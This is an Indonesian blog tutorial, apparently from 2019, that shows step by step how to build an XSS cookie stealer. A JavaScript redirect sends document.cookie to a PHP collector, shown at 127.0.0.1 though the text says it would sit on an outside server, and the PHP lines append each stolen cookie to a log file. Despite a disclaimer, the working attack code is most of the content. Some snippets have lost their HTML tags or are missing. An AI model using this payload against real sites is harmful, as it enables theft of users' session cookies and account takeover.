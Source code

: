 ```yaml
---
title: "Membuat XSS Cookie Stealer"
date: "2019-01-10"
tags: ['Security']
---
```


**Membuat XSS Cookie Stealer** - JavaScript adalah salah satu bahasa yang paling umum digunakan di web. Dapat juga menganimasikan komponen situs web, mengelola konten situs web, dan menjalankan banyak fungsi bermanfaat lainnya dari dalam halaman web. Javascript memiliki banyak fungsi yang dapat digunakan untuk tujuan jahat, termasuk mencuri cookie pengguna dan informasi lainnya.

**Cookie adalah informasi yang diminta atau dipertahankan oleh situs web mengenai pengguna tertentu yang mengunjungi halaman tersebut**. Cookie berisi informasi tentang bagaimana dan kapan mereka mengunjungi, serta informasi otentikasi untuk situs seperti nama pengguna dan kata sandi. Karena cookie harus digunakan setiap kali pengunjung aktif di web, penyerang dapat mencuri informasi dan menggunakannya untuk meniru informasi pengguna.

Kita dapat menggunakan JavaScript untuk menyimpan atau memodifikasi cookie pengguna untuk domain tertentu. Serangan berbasis JavaScript sangat efektif bila dikombinasikan dengan taktik seperti injeksi kode. Karena memungkinkan kode berbahaya dijalankan di situs web yang tampaknya tepercaya.

Baca juga: [Upload Shell Menggunakan SQLMap](https://akbar.kustirama.id/upload-shell-menggunakan-sqlmap/).

Saya tidak menganjurkan untuk mencuri kata sandi siapa pun. Panduan ini adalah topik yang harus diketahui oleh pentester atau profesional keamanan TI apa pun untuk dipahami. Jika kalian tidak tahu bagaimana peretas _blackhat_ melakukan berbagai hal, kalian tidak akan pernah bisa menangkapnya.

### Membuat Halaman HTML Sebagai Tester  

Untuk mencuri cookie, cookie harus terlebih dahulu tersedia di domain web yang dilihat pengguna. Ini terjadi setiap kali pengguna melihat situs web.

Lingkungan pengujian untuk cookie saya akan berada dalam halaman HTML yang cukup standar. Saya akan dapat menanamkan semua elemen JavaScript kami secara langsung. Pertama, buat direktori baru untuk memuat file HTML. Pada sistem Linux atau macOS, kita dapat menggunakan mkdir, seperti yang terlihat di bawah ini.

```
mkdir cookiestealer
cd cookiestealer
touch index.html
```

Kita dapat membuat parameter dasar yang dimasukkan dalam cookie dengan hanya menggunakan satu string. Cookie ini hanya akan ada di halaman ini, dan sama halnya, teknik yang digunakan untuk membuang cookie nantinya. Ini hanya akan berlaku untuk cookie apa pun yang disimpan di dalam halaman tempat script dijalankan atau disuntikkan. Letakkan script di bawah ini di dalam tag `<body>...</body>`:

```
document.cookie = "username=abaykandotcom";
```

Untuk mengetahui apakah script kita bekerja, masukkan script berikut:

```

document.cookie = "username=abaykandotcom";
document.write(document.cookie);
```

Kita telah berhasil menetapkan "**username = abaykandotcom**" sebagai cookie untuk halaman ini. Kita sekarang dapat menghapus "**document.write (document.cookie);**", karena kita akan meneruskan cookie yang diambil dari halaman pengguna yang ditargetkan ke halaman independen. Yang di luar situs di mana mereka dapat ditulis dan disimpan.

### Membuat XSS Cookie-Stealer Menggunakan Javascript

```
document.location = 'http://127.0.0.1/cookiestealer.php? c =' + document.cookie;
```

Dalam contoh ini, file PHP terletak di komputer lokal, atau localhost, di 127.0.0.1. Dalam penerapan teknik ini, kita mengarah ke file yang di-host di server web di luar jaringan lokal atau komputer lokal.

Untuk tujuan pengujian, kita akan dapat meng-host file secara lokal menggunakan PHP. Kita dapat menyertakan JavaScript ini dalam tag skrip, seperti yang terlihat di bawah ini. Pada halaman HTML yang sama di mana saya mendefinisikan cookie yang saya buat tadi.

```

document.location='http://127.0.0.1:666/cookiestealer.php?c='+document.cookie;
```

Keseluruhan file akan menjadi seperti ini,

```

abay



document.cookie = "username=abaykandotcom";


document.location='http://127.0.0.1:666/cookiestealer.php?c='+document.cookie;


```

### Memproses Cookie Menggunakan PHP

Pertama, buat file PHP baru di direktori yang sama dengan file index.html. Lalu masukkan script dibawah ini ke dalam **cookiestealer.php**

Dengan melakukan redirection pada pengguna yang ditetapkan, kita dapat menambahkan kode tambahan untuk memproses cookie. Pertama, saya akan menetapkan cookie yang dibawa oleh URL ke variabel.

```
$cookies = $_GET["c"];
```

Selanjutnya, kita akan mendefinisikan file yang akan disimpan cookie pada server yang kita kontrol. Dalam contoh di bawah ini, file tersebut bernama "**log.txt**".

```
$file = fopen('log.txt', 'a');
```

Terakhir, saya akan menggabungkan variabel yang didefinisikan dalam dua string di atas. Ini dilakukan untuk menulis konten variabel, cookie, ke file log saya.

```
fwrite($file, $cookies . "\n\n");
```

Kode kita sekarang menjadi seperti dibawah ini.

### Menjalankan Cookie Stealer  

Dari dalam direktori yang sama dengan file index.html dan cookiestealer.php, kita dapat meluncurkan server pengujian. Kita hanya perlu menggunakan PHP dari Command Line.

```
abay@codelatte:~$ php -S 127.0.0.1:80
abay@codelatte:~$ sudo php -S 127.0.0.1:80
PHP 5.5.38 Development Server started at Tue Nov 27 21:38:12 2018
Listening on http://127.0.0.1:80
Document root is /Applications/XAMPP/xamppfiles/htdocs/cookiestealer
Press Ctrl-C to quit.
```

Server pengujian ini sekarang memungkinkan kita untuk menguji halaman dengan hanya membuka "127.0.0.1" dalam browser web pada mesin yang sama. Setelah membuka halaman ini, browser akan segera mengarahkan ke situs web yang saya definisikan sebagai pengalihan, dalam hal ini Google.

Akhirnya, kita akan dapat mengambil cookie dengan memeriksa file "log.txt" yang sekarang ada di direktori situs. Jika log berisi cookie, dalam hal ini "username = abaykandotcom" maka kita telah berhasil mencuri cookie menggunakan JavaScript!

<script id="asciicast-213877" data-autoplay="true" src="https://asciinema.org/a/213877.js" async></script>

Saya harap kalian menikmati artikel tentang cara Membuat XSS Cookie-Stealer ini.
